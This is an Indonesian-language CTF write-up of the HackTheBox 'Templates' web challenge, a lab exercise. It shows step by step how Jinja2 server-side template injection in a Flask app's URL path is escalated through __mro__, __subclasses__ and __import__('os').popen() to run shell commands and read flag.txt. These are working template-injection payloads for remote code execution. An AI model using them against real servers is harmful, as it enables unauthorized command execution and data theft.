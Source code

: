 CTF Name : HackTheBox Challenges  
Challenge category : Web  
Challenge Name : Templates  
Challenge points : 0 Points — Easy  
Challenge desc : Can you exploit this simple mistake?

![Pasted image 20240723132142](https://github.com/user-attachments/assets/d95b27ab-f30e-43e6-941f-b2fcfad9e8ad)

Berikut adalah isi dari web instancenya.

![Pasted image 20240723132329](https://github.com/user-attachments/assets/062b9bd5-2cfb-4c4f-84ad-20712ff42ea6)

Dari page tersebut, kita dapat ambil informasi bahwa web tersebut menggunakan Flask/Jinja2. Yang mana kalau kita search di google tentang Jinja2, kita akan menemukan informasi baru.
![Pasted image 20240723132528](https://github.com/user-attachments/assets/7cd7483d-a304-4759-84c3-d028eb158a6b)


Jinja merupakan sebuah template engine web yang terbuat dari python, cara kerjanya adalah merender text/variabel menjadi HTML. Apabila Jinja tidak dikonfigurasi security-nya dengan baik, maka Jinja bisa rentan terhadap SSTI (Server-Side Template Injection).

Untuk bacaan tentang SSTI bisa di [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Langsung saja kita kerjakan, kita lakukan pengetesan vuln Jinja dengan variabel name.

![Pasted image 20240723134007](https://github.com/user-attachments/assets/9224f0ce-ef6e-4375-8306-10b10eeb82bd)

Ternyata, tidak terdapat perubahan apa-apa dengan variabel name. Kita akan coba untuk langsung memasukkan SSTI-nya sebagai direktori, contohnya seperti ini.

```
http://host:port/{{7*7}}
```

![Pasted image 20240723134204](https://github.com/user-attachments/assets/8511f10b-e908-447c-b227-fc0567017f9f)


Dan ternyata bisa. Untuk pengujian lebih lanjutnya kita bisa mengikuti [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects). Berhubung Jinja ini terbuat dari python, maka kita bisa memasukkan juga program Python untuk exploit SSTInya. Kita akan menggunakan builtins function ‘import’, ‘mro’, dan ‘subclasses’ untuk mengakses setiap class yang diload di program python saat ini.

Untuk awalan exploitnya, kita akan menggunakan string class terlebih dahulu kemudian bertahap memodifikasi exploitnya sesuai dengan kasus yang ada.

```
http://host:port/{{"".__class__.__mro__[1]}}
```

![Pasted image 20240723143239](https://github.com/user-attachments/assets/378c1522-1b9a-4c20-9aeb-81451959d7d0)


Kita tambahkan subclasses untuk melihat list subclass yang dapat diakses dari object.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()}}
```

Berikut adalah outputnya.

![Pasted image 20240723144321](https://github.com/user-attachments/assets/ad7c4223-330e-4e85-8f16-e32341bb8013)


Output di atas adalah list class yang dapat kita akses, selanjutnya kita gunakan class yang terdapat function import di dalamnya.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]}}
```
![Pasted image 20240723144805](https://github.com/user-attachments/assets/e3340a62-897c-4c26-92f1-c1f23b48750c)


Dari error di atas, dapat kita lihat bahwa function import dapat kita akses. Selanjutnya adalah kita akan meng-import os, lalu kita panggil ‘popen()’ yang akan mengeksekusi command dan kita panggil ‘read()’ untuk menampilkan outputnya.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls").read()}}
```
![Pasted image 20240723145310](https://github.com/user-attachments/assets/5c2e0ec3-dd5b-4fc3-ad0f-5e6c25908567)




Sudah terlihat flag.txtnya, tinggal kita tampilkan dengan cat.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```

![Pasted image 20240723145421](https://github.com/user-attachments/assets/84e556bc-5ab5-46f1-a9a7-9f5e1f33f3dd)


Thank you:)
